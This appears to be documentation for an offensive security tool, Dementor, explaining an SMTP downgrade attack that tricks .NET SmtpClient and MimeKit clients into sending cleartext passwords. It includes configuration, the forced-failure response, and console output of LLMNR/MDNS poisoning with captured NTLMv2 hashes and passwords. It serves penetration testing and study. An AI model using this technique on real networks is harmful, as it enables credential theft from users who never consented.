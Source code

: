 .. _example_smtp_downgrade:

SMTP Downgrade Attack
=====================

The SMTP server in *Dementor* supports a mechanism to attempt a *"downgrade"* of an authentication attempt
initiated by a target host. This behavior is controlled by the :attr:`SMTP.Server.Downgrade` setting.

.. warning::

    This attack specifically targets the `SmtpClient <https://learn.microsoft.com/en-us/dotnet/api/system.net.mail.smtpclient?view=net-9.0>`_
    component of the .NET Core platform. Although `DE0005 <https://github.com/dotnet/platform-compat/blob/master/docs/DE0005.md>`_ marks this component
    as deprecated and advises against its use, this example demonstrates how *Dementor* can be configured to simulate various attack scenarios.


.. tip::

    This attack also works against `MimeKit <https://mimekit.net>`_ due to their design choice when performing
    authentication. **And most importantly, this attack also works for POP3 and IMAP**.

Prerequisites
-------------

First, let's understand how a simple email can be sent using PowerShell on Windows. Some tutorials recommend the standard ``SmtpClient``,
which, while deprecated, is still functional in many environments. Here's a typical example:

.. code-block:: powershell

    $EmailTo = "darth.vader@contoso.local"
    $EmailFrom = "luke@contoso.local"
    $Subject = "Revelation"
    $Body = "I am your father"
    $Server = "MAILSRV"
    $ServerPort = 22
    $Username = "darth.vader"
    $Password = "Anakin123!"
    $Message = New-Object System.Net.Mail.MailMessage($EmailFrom, $EmailTo, $Subject, $Body)
    $Client = New-Object System.Net.Mail.SmtpClient($Server, $ServerPort)
    $Client.UseDefaultCredentials = $false
    $Client.Credentials = New-Object System.Net.NetworkCredential($Username, $Password)
    $Client.Send($Message)

By default, the client won't require secure connections unless ``EnableSsl`` is explicitly set.
If NTLM authentication is available, it will be used **but the client may fall back to weaker mechanisms** such as
``PLAIN`` or ``LOGIN`` if the server offers them or NTLM authentication wasn't successful.


Tricking ``SmtpClient`` into Revealing Cleartext Passwords
----------------------------------------------------------

You can exploit this fallback behavior by configuring *Dementor*'s SMTP server to either accept only plain-text authentication
or simulate a failure after NTLM auth to force the client to downgrade.

1. **Accept only plain authentication (not recommended):**

   Modify the :attr:`SMTP.Server.AuthMechanisms` setting to exclude ``NTLM``:

   .. code-block:: toml

       [SMTP.Server]
       Port = 22
       AuthMechanisms = [ "PLAIN", "LOGIN" ]

   Sample output from *Dementor* after capturing cleartext credentials:

   .. container:: demo

        .. code-block:: console

           SMTP       192.168.56.115            25     [+] Captured Cleartext Password for darth.vader from 192.168.56.115:
           SMTP       192.168.56.115            25     Cleartext Username: darth.vader
           SMTP       192.168.56.115            25     Cleartext Password: Anakin123!

2. **Downgrade after failed NTLM authentication:**

   In environments where clients try NTLM first, you can simulate a failed NTLM attempt and force the client to
   retry using plain-text credentials.

   .. note::

      This only works if the client has the cleartext password available locally. If the credentials are
      provided as NTLM hashes or tokens, the downgrade will fail.

   *Dementor* sends the following response to trigger the fallback:

   .. code-block::

       535 5.7.3 Authentication unsuccessful

   The default Windows SMTP client will retry using cleartext credentials — if they are present.

   .. figure:: /_static/images/smtp-downgrade_wireshark.png
      :align: center
      :alt: Wireshark trace showing SMTP fallback to cleartext auth

      The client reattempts authentication with cleartext credentials after an NTLM failure.


Going Further: Retrieving Credentials from MimeKit
--------------------------------------------------

The documentation for `MimeKit <https://mimekit.net>`_ explains that when authenticating via
the `MailService.Authenticate <https://mimekit.net/docs/html/M_MailKit_MailService_Authenticate_1.htm>`_
method, supported SASL mechanisms will influence how credentials are handled. However, this attack
**will not** work if the client specifies a SASL mechanism directly.

.. pull-quote::
    If the server supports one or more SASL authentication mechanisms, then the SASL mechanisms that both the client and server
    support (not including any OAUTH mechanisms) are tried in order of greatest security to weakest security. Once a SASL
    authentication mechanism is found that both client and server support, the credentials are used to authenticate.

    -- `MimeKit Documentation <https://mimekit.net/docs/html/M_MailKit_MailService_Authenticate_1.htm>`_

Setting up a small program usually costs hours of installing stuff. Once complete, the following script
demonstrates how this behavior is triggered from the client side:

.. code-block:: csharp
    :caption: MailProgram.cs

    using (var smtpClient = new SmtpClient())
    {
        smtpClient.Connect(smtpHost, smtpPort, SecureSocketOptions.StartTls);
        smtpClient.Authenticate("temple.master", "UseTheF0rce");
        smtpClient.Send(message); // message create ommitted here
        smtpClient.Disconnect(true);
    }

By default, no additional configuration is necessary. In the following capture, :attr:`NTLM.ExtendedSessionSecurity`
has been disabled:

.. container:: demo

    .. code-block:: console
        :emphasize-lines: 6,9,10

        MDNS       fe80::b9cb:192d:31db:a0c5 5353   [+] Sent poisoned answer to fe80::b9cb:192d:31db:a0c5
        LLMNR      192.168.56.122            5355   [*] Query for MAILSRV01 (type: AAAA)
        LLMNR      192.168.56.122            5355   [+] Sent poisoned answer to 192.168.56.122
        SMTP       fe80::b9cb:192d:31db:a0c5 25     [+] Captured NTLMv2 Hash for temple.master/ossus.contoso.local from fe80::b9cb:192d:31db:a0c5:
        SMTP       fe80::b9cb:192d:31db:a0c5 25     NTLMv2 Username: temple.master
        SMTP       fe80::b9cb:192d:31db:a0c5 25     NTLMv2 Hash: temple.master::ossus.contoso.local:313333374c454554:e8545823cb69a89c26da9d0b52dc01b7:[...]
        SMTP       fe80::b9cb:192d:31db:a0c5 25     [*] Performing downgrade attack for target fe80::b9cb:192d:31db:a0c5
        SMTP       fe80::b9cb:192d:31db:a0c5 25     [+] Captured Cleartext Password for temple.master@ossus.contoso.local from fe80::b9cb:192d:31db:a0c5:
        SMTP       fe80::b9cb:192d:31db:a0c5 25     Cleartext Username: temple.master@ossus.contoso.local
        SMTP       fe80::b9cb:192d:31db:a0c5 25     Cleartext Password: UseTheF0rce

